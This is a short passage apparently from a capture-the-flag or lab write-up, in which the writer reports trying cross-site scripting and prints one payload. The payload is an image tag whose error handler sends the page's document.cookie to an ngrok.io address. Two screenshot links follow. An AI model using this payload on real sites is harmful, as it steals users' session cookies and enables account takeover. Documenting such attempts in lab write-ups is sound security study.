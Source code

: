 I tried putting in XSS

```html
<img src=x onerror=this.src='http://a1e5-116-14-150-8.ngrok.io/?'+document.cookie;>
```

![](Pasted%20image%2020220515111250.png)

![](Pasted%20image%2020220515111313.png)
